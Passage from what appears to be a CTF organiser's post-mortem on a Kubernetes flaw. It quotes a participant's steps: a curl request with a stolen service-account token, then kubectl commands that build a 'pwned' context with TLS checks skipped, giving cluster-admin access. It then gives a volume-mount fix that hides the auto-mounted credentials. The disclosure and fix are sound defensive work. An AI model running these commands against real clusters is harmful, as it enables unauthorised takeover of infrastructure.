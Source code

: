 > A rough reenactment of the steps taken is laid out [here](https://gist.github.com/tmc/8cd2364f7b6702ac6318c64a3d17e32d).
> 
> In retrospect remote cluster access would have easier by identifying the public ip and configuring a local client. An in-environment request similar to `curl -k -H ‘Authorization: Bearer ${serviceaccount_token} [https://kubernetes/api](https://kubernetes/api)` exposes the public of the apiserver. Having these two values means you can from any machine set up cluster admin access like so:
> 
```
kubectl config set-cluster pwned — server=https://${public_ip} — insecure-skip-tls-verify 
kubectl config set-credentials pwn — token=${serviceacount_token}
kubectl config set-context pwned — cluster=pwned — user=pwn
kubectl config use-context pwned
```
> A memoir:
![Screenshot of k8s dashboard](./media/bsides-sf-k8s-dashboard.webp)

## Fixing this Issue

After being notified, I worked to remediate the issue as quickly as possible. Looking through the documentation, there didn’t seem to be an easy way to disable the feature. With a bit more research, I found [this issue](https://github.com/kubernetes/kubernetes/issues/16779) on Github. Apparently the auto-mounting of API credentials is a feature maintained for backwards compatibility, and at the time there wasn’t a way to disable it. The workaround was to mount an empty, read-only volume at the the location where Kubernetes mounts the service account credentials.
```
  volumeMounts:    
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount      
      name: no-api-access-please      
      readOnly: true
volumes:  
  - name: no-api-access-please    
    emptyDir: {}
```